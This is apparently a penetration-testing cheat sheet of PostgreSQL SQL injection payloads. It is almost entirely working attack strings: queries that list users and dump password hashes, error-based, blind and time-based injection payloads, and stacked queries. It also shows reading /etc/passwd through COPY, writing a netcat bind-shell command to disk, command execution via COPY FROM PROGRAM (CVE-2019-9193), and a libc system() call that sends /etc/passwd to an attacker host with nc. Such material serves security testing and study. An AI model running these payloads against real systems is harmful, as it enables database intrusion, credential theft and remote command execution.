

PostgreSQL
PostgreSQL injection
Summary
•
PostgreSQL Comments•
PostgreSQL version•
PostgreSQL Current User•
PostgreSQL List Users•
PostgreSQL List Password Hashes•
PostgreSQL List Database Administrator Accounts•
PostgreSQL List Privileges•
PostgreSQL database name•
PostgreSQL List databases•
PostgreSQL List tables•
PostgreSQL List columns•
PostgreSQL Error Based•
PostgreSQL Blind•
PostgreSQL Time Based•
PostgreSQL Stacked query•
PostgreSQL File Read•
PostgreSQL File Write•
PostgreSQL Command execution•
CVE-2019–9193•
Using libc.so.6•
ReferencesPostgreSQL Comments
--
/**/
PostgreSQL Version
SELECT version()
PostgreSQL Current User
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
PostgreSQL List Users
SELECT usename FROM pg_user
PostgreSQL List Password Hashes
SELECT usename, passwd FROM pg_shadow
PostgreSQL List Database Administrator Accounts
SELECT usename FROM pg_user WHERE usesuper IS TRUE
PostgreSQL List Privileges
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
PostgreSQL Database Name
SELECT current_database()
PostgreSQL List Database
SELECT datname FROM pg_database
PostgreSQL List Tables
SELECT table_name FROM information_schema.tables
PostgreSQL List Columns
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
PostgreSQL Error Based
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
PostgreSQL Blind
' and substr(version(),1,10) = 'PostgreSQL' and '1 -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1 -> KO
PostgreSQL Time Based
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
PostgreSQL Stacked Query
Use a semi-colon ";" to add another query
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
PostgreSQL File Read
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);NOTE: ``pg_read_file
doesn't accept the/` character.
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
PostgreSQL File Write
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
PostgreSQL Command execution
CVE-2019–9193
Can be used from
Metasploit if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.
DROP TABLE IF EXISTS cmd_exec; -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id'; -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec; -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec; -- [Optional] Remove the table

Using libc.so.6
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
References
•
A Penetration Tester’s Guide to PostgreSQL - David Hayter•
Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest - Mar 20 2019 - GreenWolf•
SQL Injection /webApp/oma_conf ctx parameter (viestinta.lahitapiola.fi) - December 8, 2016 - Sergey Bobrov (bobrov)•
POSTGRESQL 9.X REMOTE COMMAND EXECUTION - 26 Oct 17 - Daniel